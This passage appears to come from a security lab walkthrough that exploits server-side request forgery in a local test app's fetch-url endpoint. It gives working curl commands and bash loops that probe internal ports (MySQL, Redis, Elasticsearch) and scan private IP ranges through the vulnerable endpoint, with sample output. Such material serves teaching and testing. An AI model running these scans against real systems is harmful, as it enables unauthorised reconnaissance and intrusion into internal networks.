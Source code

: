 #### Step 1: Basic SSRF Test

```bash
# Test if endpoint exists
curl "http://localhost:3000/api/fetch-url?url=https://google.com"
```

**Response:**
```json
{
  "success": true,
  "data": "<!doctype html><html>..."
}
```

✅ **Server fetches external URL!**

#### Step 2: Access Internal Services

```bash
# Access localhost services
curl "http://localhost:3000/api/fetch-url?url=http://localhost:3306"

# Try different ports
for port in 22 80 443 3000 3306 5432 6379 8080 8443 9200; do
  echo "Testing port $port..."
  curl -s "http://localhost:3000/api/fetch-url?url=http://localhost:$port" \
    | head -c 100
  echo ""
done
```

**Results might reveal:**
```
Testing port 3306...
MySQL server version information

Testing port 6379...
Redis PING response

Testing port 9200...
Elasticsearch cluster info
```

#### Step 3: Access Internal Network

```bash
# Scan private IP ranges
for ip in 192.168.1.{1..254}; do
  echo "Scanning $ip..."
  curl -s --max-time 2 \
    "http://localhost:3000/api/fetch-url?url=http://$ip" \
    && echo "$ip is accessible"
done

# Common internal services
curl "http://localhost:3000/api/fetch-url?url=http://192.168.1.1"  # Router
curl "http://localhost:3000/api/fetch-url?url=http://10.0.0.1"     # Internal gateway
curl "http://localhost:3000/api/fetch-url?url=http://172.16.0.1"   # Docker gateway
```
